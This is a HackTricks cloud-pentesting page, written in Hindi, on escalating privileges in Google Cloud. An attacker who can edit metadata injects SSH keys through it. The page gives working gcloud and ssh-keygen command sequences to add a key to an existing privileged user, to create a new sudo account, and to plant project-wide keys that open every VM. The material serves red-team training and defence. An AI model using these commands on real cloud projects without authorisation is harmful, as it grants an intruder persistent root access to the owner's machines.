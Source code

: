 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Metadata को संशोधित करना <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक इंस्टेंस पर मेटाडेटा का संशोधन **महत्वपूर्ण सुरक्षा जोखिमों** का कारण बन सकता है यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त कर लेता है।

#### **कस्टम मेटाडेटा में SSH कुंजियों का समावेश**

GCP पर, **Linux सिस्टम** अक्सर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) से स्क्रिप्ट चलाते हैं। इसका एक महत्वपूर्ण घटक [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) है, जो **नियमित रूप से** इंस्टेंस मेटाडेटा एंडपॉइंट की जांच करने के लिए डिज़ाइन किया गया है **अधिकृत SSH सार्वजनिक कुंजियों के अपडेट के लिए**।

इसलिए, यदि एक हमलावर कस्टम मेटाडेटा को संशोधित कर सकता है, तो वह डेमन को एक नई सार्वजनिक कुंजी खोजने के लिए मजबूर कर सकता है, जिसे संसाधित किया जाएगा और **स्थानीय सिस्टम में एकीकृत किया जाएगा**। कुंजी को एक **मौजूदा उपयोगकर्ता के `~/.ssh/authorized_keys` फ़ाइल में जोड़ा जाएगा या `sudo` अनुमतियों के साथ एक नए उपयोगकर्ता को संभावित रूप से बनाया जाएगा**, कुंजी के प्रारूप के आधार पर। और हमलावर होस्ट को समझौता करने में सक्षम होगा।

#### **मौजूदा विशेषाधिकार प्राप्त उपयोगकर्ता के लिए SSH कुंजी जोड़ें**

1. **इंस्टेंस पर मौजूदा SSH कुंजियों की जांच करें:**
*   इंस्टेंस और इसके मेटाडेटा का वर्णन करने के लिए कमांड निष्पादित करें ताकि मौजूदा SSH कुंजियों को ढूंढा जा सके। आउटपुट में प्रासंगिक अनुभाग `metadata` के तहत होगा, विशेष रूप से `ssh-keys` कुंजी के तहत।

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH कुंजियों के प्रारूप पर ध्यान दें: उपयोगकर्ता नाम कुंजी से पहले आता है, जो एक कोलन द्वारा अलग किया जाता है।
2. **SSH कुंजी मेटाडेटा के लिए एक टेक्स्ट फ़ाइल तैयार करें:**
* उपयोगकर्ता नाम और उनके संबंधित SSH कुंजियों का विवरण `meta.txt` नामक टेक्स्ट फ़ाइल में सहेजें। यह मौजूदा कुंजियों को बनाए रखते हुए नई कुंजियाँ जोड़ने के लिए आवश्यक है।
3. **लक्षित उपयोगकर्ता के लिए एक नई SSH कुंजी उत्पन्न करें (`alice` इस उदाहरण में):**
*   `ssh-keygen` कमांड का उपयोग करके एक नई SSH कुंजी उत्पन्न करें, यह सुनिश्चित करते हुए कि टिप्पणी फ़ील्ड (`-C`) लक्षित उपयोगकर्ता नाम से मेल खाता है।

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* नई सार्वजनिक कुंजी को `meta.txt` में जोड़ें, इंस्टेंस के मेटाडेटा में पाए गए प्रारूप की नकल करते हुए।
4. **इंस्टेंस के SSH कुंजी मेटाडेटा को अपडेट करें:**
*   `gcloud compute instances add-metadata` कमांड का उपयोग करके इंस्टेंस पर अपडेट की गई SSH कुंजी मेटाडेटा लागू करें।

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **नई SSH कुंजी का उपयोग करके इंस्टेंस तक पहुँचें:**
*   नई कुंजी का उपयोग करके SSH के साथ इंस्टेंस से कनेक्ट करें, लक्षित उपयोगकर्ता (`alice` इस उदाहरण में) के संदर्भ में शेल तक पहुँचें।

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **एक नया विशेषाधिकार प्राप्त उपयोगकर्ता बनाएं और SSH कुंजी जोड़ें**

यदि कोई दिलचस्प उपयोगकर्ता नहीं पाया जाता है, तो एक नया उपयोगकर्ता बनाया जा सकता है जिसे `sudo` अनुमतियाँ दी जाएंगी:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

यह संभव है कि SSH पहुंच को क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक बढ़ाया जाए **परियोजना स्तर पर SSH कुंजी लागू करके**। यह दृष्टिकोण परियोजना के भीतर किसी भी उदाहरण तक SSH पहुंच की अनुमति देता है जिसने स्पष्ट रूप से परियोजना-व्यापी SSH कुंजियों को अवरुद्ध नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजी लागू करें:**
*   `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजी को परियोजना के मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजी परियोजना में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "ब्लॉक प्रोजेक्ट-व्यापी SSH कुंजी" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **परियोजना-व्यापी कुंजियों का उपयोग करके उदाहरणों में SSH करें:**
* परियोजना-व्यापी SSH कुंजियों के साथ, आप परियोजना के भीतर किसी भी उदाहरण में SSH कर सकते हैं। जो उदाहरण परियोजना-व्यापी कुंजियों को अवरुद्ध नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे पहुंच प्राप्त होगी।
* किसी उदाहरण में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई SSH कुंजियों का उपयोग करके पहुंच प्राप्त करने का प्रयास करता है।

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
